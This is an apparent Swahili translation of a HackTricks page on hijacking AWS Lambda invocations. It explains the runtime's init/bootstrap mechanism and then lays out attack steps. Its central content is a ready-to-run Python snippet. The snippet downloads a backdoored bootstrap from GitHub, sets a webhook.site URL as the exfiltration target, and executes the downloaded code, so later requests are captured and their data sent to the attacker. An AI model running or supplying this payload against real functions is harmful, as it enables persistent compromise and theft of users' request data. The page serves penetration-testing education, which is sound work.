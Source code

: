 # AWS - Kuiba Maombi ya Lambda

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka mwanzo hadi mtaalamu na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalamu wa Timu Nyekundu ya HackTricks AWS)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Mchakato wa Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** ni mchakato nje ya chombo ambao **hutuma** **maombi** kwa mchakato wa **init**.
2. Mchakato wa init husikiliza kwenye bandari **9001** ukiweka wazi baadhi ya vituo vya kupendeza:
* **`/2018-06-01/runtime/invocation/next`** – pata tukio la maombi linalofuata
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – rudisha jibu la kiongozi kwa ombi
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – rudisha kosa la utekelezaji
3. **bootstrap.py** ina mzunguko unapata maombi kutoka kwa mchakato wa init na kuita nambari za watumiaji kuzishughulikia (**`/next`**).
4. Hatimaye, **bootstrap.py** inatuma kwa init **jibu**

Tambua kwamba bootstrap inapakia nambari ya mtumiaji kama moduli, hivyo utekelezaji wa nambari uliofanywa na nambari za watumiaji unatokea katika mchakato huu.

## Kuiba Maombi ya Lambda

Lengo la shambulio hili ni kufanya nambari za watumiaji zitekeleze mchakato mbaya wa **`bootstrap.py`** ndani ya mchakato wa **`bootstrap.py`** ambao unashughulikia ombi lililodhurika. Kwa njia hii, mchakato wa **bootstrap mbaya** utaanza **kuzungumza na mchakato wa init** kushughulikia maombi wakati **bootstrap halali** umekwama ukiendesha ule mbaya, hivyo hautauliza maombi kwa mchakato wa init.&#x20;

Hii ni kazi rahisi kufanikisha kwani nambari ya mtumiaji inatekelezwa na **`bootstrap.py`** halali. Kwa hivyo, muhusika anaweza:

* **Tuma matokeo bandia ya ombi la sasa kwa mchakato wa init**, hivyo init inadhani mchakato wa bootstrap unangojea maombi zaidi.
* Ombi lazima litumwe kwa **`/${invoke-id}/response`**&#x20;
* Invoke-id inaweza kupatikana kutoka kwenye rundo la **`bootstrap.py`** halali kwa kutumia moduli ya python ya [**inspect**](https://docs.python.org/3/library/inspect.html) (kama [ilivyopendekezwa hapa](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) au tu kuomba tena kwa **`/2018-06-01/runtime/invocation/next`** (kama [ilivyopendekezwa hapa](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Tekeleza mchakato mbaya wa **`boostrap.py`** ambao utashughulikia maombi yajayo
* Kwa madhumuni ya kujificha, inawezekana kutuma vigezo vya maombi ya lambda kwa C2 inayodhibitiwa na muhusika na kisha kushughulikia maombi kama kawaida.
* Kwa shambulio hili, ni vya kutosha kupata nambari ya asili ya **`bootstrap.py`** kutoka kwenye mfumo au [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), ongeza nambari mbaya na uitekeleze kutoka kwa ombi la lambda la sasa.

### Hatua za Shambulio

1. Tafuta **mdhaa wa RCE**.
2. Unda **bootstrap** mbaya (k.m. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Tekeleza** bootstrap mbaya.

Unaweza kufanya vitendo hivi kwa urahisi kwa kukimbia:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Kwa maelezo zaidi angalia [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Marejeo

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kuhack kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
